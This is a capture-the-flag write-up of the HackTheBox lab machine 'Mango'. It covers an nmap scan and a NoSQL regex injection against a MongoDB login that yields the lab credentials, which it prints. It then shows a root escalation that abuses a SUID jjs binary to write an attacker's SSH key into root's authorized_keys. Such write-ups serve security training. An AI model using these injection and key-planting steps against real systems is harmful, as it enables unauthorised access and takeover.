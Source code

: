 # Mango
Box IP **10.10.10.162**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v mango.htb
```

### Services
```
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
```

Access to webserver on port 80 is forbidden, and connection of port 443 reveals an invalid certificate

By investigating the certificate we find some interesting info

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/1.png" alt="1" />
</p>

We add this domain to our hosts file and by surfing to it we get a login page


### MongoDB

We exploit a [NonSQLi](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Web#NonSQLi) in [MongoDB](https://docs.mongodb.com/manual/reference/operator/query/regex/) to enumerate **users** and **password**.

If the regex matches, the server replies with status **302**, otherwise with **200**

We [speedup](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) the credential grabbing by

```bash
$ python3 nosqli-user-pass-enum.py -u https://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep username
$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep password
```

And we get **mango:h3mXK8RhU~f{]f5H** and **admin:t9KcS3>!0B#2**

We authenticate as **mango** in SSH and by switching user to **admin** we get the user flag


### Privilege Escalation

By searching for suid binaries
```
$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

we find a jss binary /usr/lib/jvm/java-11-openjdk-amd64/bin/**jjs**

As [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) suggests we basically can

- write our ssh PK in the root directory
```
$ echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("PUBLIC KEY");
fw.close();' | jjs
```

- open a [reverse shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Shells#spawn-reverse-shell)

- directly print the root flag

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/2.png" alt="1" />
</p>


If you liked this writeup, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
